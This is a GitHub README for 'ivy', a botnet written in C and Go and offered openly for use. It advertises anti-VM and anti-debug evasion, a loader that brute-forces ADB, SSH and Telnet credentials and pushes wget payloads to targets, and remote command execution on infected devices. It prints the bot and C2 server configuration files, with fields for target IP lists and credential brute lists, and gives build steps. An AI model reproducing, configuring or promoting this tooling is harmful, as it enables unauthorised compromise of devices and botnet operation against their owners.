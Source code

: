 <h1 align="center">
	<img src="https://user-images.githubusercontent.com/95945026/145702221-ed6d438c-436c-47b9-8e9f-c9223963394b.png" width="150px"><br>
    ivy - A botnet written in C and Golang.
</h1>
<p align="center">
    Ivy is a large, feature-rich botnet written in C and Golang that is
    extremely easy to use, and comes with a built-in loader.
</p>

<p align="center">
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Version-1.0.0-7DCDE3?style=for-the-badge" alt="Version">
</p>

## Features
Feature  | Description
-------- | -----------
Anti VM | The bot for Ivy checks if it's being ran in a virtual machine by checking for the uptime and hardware specifications. If it detects anything suspicious, it exits.
Anti Debug | The bot for Ivy checks if it's being debugged. If it is, it exits.
Loader | Ivy has a built-in loader that can brute and send payloads to devices via ADB, SSH, and Telnet.
Command Execution | You can remotely execute system commands on all the connected devices.
Configuration | Ivy makes it extremely easy to configure the loader, bot, and C2.

## Bot Configuration
The configuration file for the bot is located in `util/bot/includes/config/config.h`.
```c
#pragma once


/*
    *    util/bot/includes/config/config.h
    *    Date: 12/11/21
    *    Author: 0x80000000
*/


#define C2_IP "127.0.0.1"
#define C2_PORT 1337
```
	
## Server Configuration
The configuration file for the server is located in `util/config/config.go`.
```go
package config

import (
	"net"
)


/*
    *    util/config/config.go
    *    Date: 12/11/21
    *    Author: 0x80000000
*/


var Bots []net.Conn /* Don't touch this! */
var BotCount int = 0 /* Don't touch this! */

/* Server Configuration */
const (
    C2_IP = "127.0.0.1" /* Server IP! */
    C2_PORT = "1337" /* Server Port! */
    MAX_BOTS = 1024 /* Max amount of bots allowed to connect to the server! */
)

/* Loader Configuration */
const (
    LOADER_ENABLE = false /* Set this to 'true' if you want to use the loader! */
    LOADER_PAYLOAD = "" /* Add your own custom wget payload here! */
    LOADER_OPTION = "" /* The options are '--adb', '--ssh', and '--telnet'! */
    LOADER_IP_LIST = "" /* Add your list containing the IP addresses of targets! */
    LOADER_BRUTE_LIST = "" /* Add your list containing the username/password combinations to brute against the target! */
)
```

## Setup & Installation
```
Steps for compiling & running:
go mod init ivy
go mod tidy
  ./compile.sh
```

## Screenshots
![image](https://user-images.githubusercontent.com/95945026/145702343-1c574e9e-afe3-435a-ad76-9cfb15d2c9f4.png)

## Credits
```
https://github.com/0x80000000
```

### Contributions 🎉
###### All contributions are accepted, simply open an Issue / Pull request.
